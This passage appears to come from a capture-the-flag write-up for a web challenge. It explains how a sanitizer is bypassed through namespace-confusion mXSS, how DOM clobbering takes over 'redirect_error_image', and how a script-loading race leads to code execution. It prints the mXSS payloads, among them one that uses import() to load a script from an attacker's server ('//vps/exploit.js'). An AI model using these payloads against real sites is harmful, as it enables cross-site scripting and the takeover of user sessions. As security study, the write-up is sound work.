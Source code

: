 Finally, it has been passed through DOMPurify, so dangerous tags cannot be used.

The key point of this question is that when I was looking at it, I found that sometimes the console would display an error message of `redirect_error_image is undefined`.

This is because the script is loaded using async, so there is a race condition problem. If the `onerror` of the img is triggered before the script is loaded, then `redirect_error_image` will be undefined.

Using this feature, the winning formula is to use DOM clobbering to control `redirect_error_image`, and then use the `setTimeout` function to execute arbitrary code with the first parameter passed as a string, which is similar to the `eval` function.

The part of DOM clobbering needs to bypass the custom parser first, which is completed by a teammate. The principle is roughly described in this article: [HTML sanitization bypass in Ruby Sanitize < 5.2.1](https://research.securitum.com/html-sanitization-bypass-in-ruby-sanitize-5-2-1/), using namespace confusion to create mXSS, and the payload looks like this:

``` html
<svg><style><&sol;style><&sol;svg>&lt;a id=redirect_error_image href=http:pew>g
```

jsdom will parse the above paragraph into this:

```
BODY
-> svg
---> style
------> #text: </style></svg><a id=redirect_error_image href=http:pew>g
```

It is just a style with content, nothing special, but when restored to `document.body.innerHTML`, it becomes like this:

``` html
<svg><style></style></svg><a id=redirect_error_image href=http:pew>g</style></svg>
```

Then this `<a>` tag is generated, allowing us to perform DOM clobbering. The content can be simply put `http:import(script)`, where `http:` is treated as a label, and the following code will be executed directly.

The next step is how to make `onerror` happen faster than the script is loaded. According to the author's [writeup](https://github.com/xatophi/m0leconteaser2022-LESN/blob/main/writeup.md), you can put a URL like `http://localhost` in the image URL to make it fail quickly, and `http://not_exist` should work too.

Then you can use an iframe to load your post and then send the custom page to the bot to avoid using the cached `script.js`.

At that time, I thought that the browser had priority when loading resources. If I could create a combination with a higher priority than `script.js`, I could delay the loading of the script. So I tried to add a lot of pictures to the page:

``` html
<svg><style><&sol;style><&sol;svg>&lt;a id=redirect_error_image href=mailto:import('//vps/exploit.js')>
&lt;img src=https://deelay.me/20000/https://example.com>
&lt;img src=https://deelay.me/20001/https://example.com>
&lt;img src=https://deelay.me/20002/https://example.com>
&lt;img src=https://deelay.me/20003/https://example.com>
```
